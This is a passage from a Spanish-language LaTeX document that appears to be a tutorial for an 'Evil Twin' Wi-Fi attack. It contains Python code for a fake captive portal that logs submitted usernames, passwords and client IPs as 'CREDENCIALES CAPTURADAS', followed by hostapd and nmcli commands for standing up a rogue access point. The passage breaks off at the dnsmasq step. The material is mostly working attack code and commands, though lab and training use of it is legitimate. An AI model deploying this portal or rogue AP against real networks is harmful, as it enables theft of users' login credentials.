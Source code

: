 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs
import datetime

class PortalHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        with open('index.html', 'rb') as f:
            contenido = f.read()
        self.send_response(200)
        self.send_header('Content-Type', 'text/html; charset=utf-8')
        self.end_headers()
        self.wfile.write(contenido)

    def do_POST(self):
        length = int(self.headers['Content-Length'])
        body = self.rfile.read(length).decode('utf-8')
        datos = parse_qs(body)
        timestamp = datetime.datetime.now().isoformat()
        print(f``[{timestamp}] CREDENCIALES CAPTURADAS:'')
        print(f``  Usuario: {datos.get('usuario', [''])[0]}'')
        print(f``  Password: {datos.get('password', [''])[0]}'')
        print(f``  Cliente IP: {self.client_address[0]}'')
        print(``---'')
        self.send_response(200)
        self.send_header('Content-Type', 'text/html')
        self.end_headers()
        self.wfile.write(b``<h1>Sesion iniciada (demo)</h1>'')

if __name__ == '__main__':
    print(``Portal cautivo de demostracion WARDEN escuchando en 10.0.0.1:80'')
    HTTPServer(('10.0.0.1', 80), PortalHandler).serve_forever()
\end{lstlisting}

\subsection{Lanzar el Evil Twin}
Necesitarás varias terminales, una por cada componente.

\textbf{Terminal 1 - hostapd (el AP):}

\begin{lstlisting}
sudo hostapd /tmp/eviltwin-hostapd.conf
\end{lstlisting}

Verás logs indicando que el AP está activo. Si hay errores, suele ser
por NetworkManager controlando la interfaz. En ese caso, primero:

\begin{lstlisting}
sudo nmcli device set wlp98s0 managed no
\end{lstlisting}

Y vuelve a lanzar \texttt{hostapd}.

\textbf{Terminal 2 - dnsmasq (DHCP+DNS):}
\end{document}
